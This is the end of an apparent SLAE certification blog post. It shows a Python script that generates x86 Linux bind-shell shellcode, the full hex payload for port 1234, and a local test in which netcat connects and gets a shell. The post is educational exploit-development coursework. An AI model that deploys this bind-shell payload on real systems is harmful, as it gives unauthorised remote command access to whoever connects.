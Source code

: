 ```python


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
python bind_final.py --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
````

Nous recompilons comme lors de l'exemple précédent puis testons le tout.

```c
./test_shellcode
tcp        0      0 0.0.0.0:1234            0.0.0.0:* LISTEN      2678/test_shellcode

nc localhost -p 1234 
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763